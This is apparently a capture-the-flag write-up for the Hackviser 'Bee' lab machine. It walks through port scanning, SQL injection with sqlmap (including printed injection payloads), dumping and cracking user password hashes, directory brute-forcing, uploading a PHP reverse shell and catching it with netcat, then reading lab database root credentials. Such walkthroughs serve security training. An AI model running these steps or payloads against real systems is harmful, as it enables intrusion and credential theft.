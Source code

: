 ```yaml
---
title: "Bee"
date: 2025-08-24 01:09:33 +0300
comments: true
description: A beginner-friendly Boot2Root machine from Hackviser.
image: /images/Hackviser/Bee.webp
categories: [NMAP, burpsuite, easy, SQLMAP, web, SQLi, boot2root, B2R]
tags:  [NMAP, burpsuite, easy, SQLMAP, web, SQLi, boot2root, B2R]
featureimage: "https://miro.medium.com/v2/resize:fit:1024/1*jPcYVi9NV76-TkwgWXBp3Q.png"
---
```


## Challenge Description
This warmup machine focuses on teaching how to exploit the SQL Injection vulnerability, which causes database exploits, and the File Upload vulnerability, which causes malicious files to be uploaded to the server.

It is recommended for practicing how to discover and exploit SQL Injection and File Upload vulnerabilities.

## Enumeration
Scanning for open ports using NMAP:

```plaintext
nmap -T4 -sV 172.20.29.74 --open
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-25 19:05 EDT
Nmap scan report for dashboard.innovifyai.hackviser (172.20.29.74)
Host is up (0.035s latency).
Not shown: 515 filtered tcp ports (no-response), 483 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
3306/tcp open  mysql   MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.43 seconds
```
Notice that we have 2 ports open on the target:
- 80/tcp Running HTTP service
- 3306/tcp Running MySQL service

## Assessing the web application
Visiting the web service running on port 80, we can clearly see that its a static website. We also can note that there is a button to a login page, however, we cant access the page. We need to add the entry to
 our `/etc/hosts` file:

```bash
echo "172.20.29.74 dashboard.innovifyai.hackviser" | sudo tee -a /etc/hosts
```
That then leads us to the login page. However, we don't have any credentials to work with here. I decided, to test the website for vulnerabilities like SQLi using SQLMap. I first intercepted a login request to the website using burpsuite and save the request to a file. It looked like this:
	
```plaintext
	cat login.req 
POST /login_process.php HTTP/1.1
Host: dashboard.innovifyai.hackviser
Content-Length: 51
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://dashboard.innovifyai.hackviser
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dashboard.innovifyai.hackviser/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=fprtmbvnohkn8g0ushe30m9cq7
Connection: keep-alive

email=info%40innovifyai.hackviser&password=password
```
Notice that I used dummy credentials. I then used this request with SQLMap and discovered that the
website is vulnerable to SQL injection. Specifically through the email field. This is the command I used:

```plaintext
sqlmap -r login.req --dbs
```
The output was long, but was summarized in this log:

```plaintext
cat log
sqlmap identified the following injection point(s) with a total of 316 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=info@innovifyai.hackviser' AND 2625=(SELECT (CASE WHEN (2625=2625) THEN 2625 ELSE (SELECT 5063 UNION SELECT 7394) END))-- -&password=password

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: email=info@innovifyai.hackviser' AND GTID_SUBSET(CONCAT(0x7171707871,(SELECT (ELT(4159=4159,1))),0x716a766a71),4159) AND 'iHvX'='iHvX&password=password

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: email=info@innovifyai.hackviser';SELECT SLEEP(5)#&password=password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=info@innovifyai.hackviser' AND (SELECT 8247 FROM (SELECT(SLEEP(5)))jLIE) AND 'ZBLV'='ZBLV&password=password
---
```
## Assessing the Underlying SQL database
Now that we know that the target webpage is vulnerable to SQLi, let's try and and enumerate the database further.
We'll start by obtaining info about the database by running:

```bash
sqlmap -r login.req --dbs
```
That then gives us some important info:

```plaintext
---
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.6
available databases [5]:
[*] information_schema
[*] innovifyai
[*] mysql
[*] performance_schema
[*] sys

sqlmap resumed the following injection point(s) from stored session:
---
```
One of the important databases we need to assess is the `innovifyai` database. Let's do that:

```bash
sqlmap -r login.req -D innovifyai --tables
```
More info is availed to us about the tables available in that database:
```plaintext
---
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.6
Database: innovifyai
[4 tables]
+-----------+
| customers |
| employees |
| orders    |
| users     |
+-----------+
sqlmap resumed the following injection point(s) from stored session:
---
```
Let's go ahead and further assess the users table:

```bash
sqlmap -r login.req -D innovifyai -T users --dump
====================SNIP========================
Database: innovifyai
Table: users
[2 entries]
+----+---------------------+--------------+---------+----------------------------------+---------------+
| id | email               | name         | isAdmin | password                         | profile_image |
+----+---------------------+--------------+---------+----------------------------------+---------------+
| 1  | sparrow@sparrow.com | Jack Sparrow | 1       | e50c41905bb09fd6fe7fd2bdae06c5b6 | <blank>       |
| 2  | ragetti@ragetti.com | Ragetti      | 1       | e266762ee74709dcdac67e593387cad1 | <blank>       |
+----+---------------------+--------------+---------+----------------------------------+---------------+

```
I then went ahead and cracked the first hash using crackstation.net and managed to login into the website with the credentials `sparrow@sparrow.com:sp4rr0w`.

Notice that this user is an admin user. When I visited the settings page, I saw a place where a user can set their image via an upload functionality. However, I wondered where the image would go after that and
decided to bruteforce the website for hidded pages using FFUF:

```bash
ffuf -ac -ic -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://dashboard.innovifyai.hackviser/FUZZ -recursion -recursion-depth 4 -e .php, .html, .txt
```
I discovered an `/upload` directory that we could easily access. This means, we could possibly try and upload
a PHP reverse shell script to the target and try and execute it while listening in for a connection 
on our attack machine. 

The upload worked, you can confirm that by visiting http://dashboard.innovifyai.hackviser/uploads/. 
## Obtaining a Shell
Let's set a listener for an incoming connection from the target before executing the script:

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.46.15] from (UNKNOWN) [172.20.29.74] 57298
Linux bee 5.10.0-25-amd64 #1 SMP Debian 5.10.191-1 (2023-08-16) x86_64 GNU/Linux
 19:52:20 up  1:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
```
As shown above, we manage to get a shell as `www-data` user. When we look around we can find even more interesting file like this one with root credentials to the database:

```bash
$ cat /var/www/dashboard.innovifyai.hackviser/db_connect.php
<?php
$servername = "localhost"; 
$username = "root"; 
$password = "Root.123!hackviser"; 
$database = "innovifyai"; 

try {
    $conn = new PDO("mysql:host=$servername;dbname=$database", $username, $password);
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Database connection failed: " . $e->getMessage());
}

?>$ 
```

---

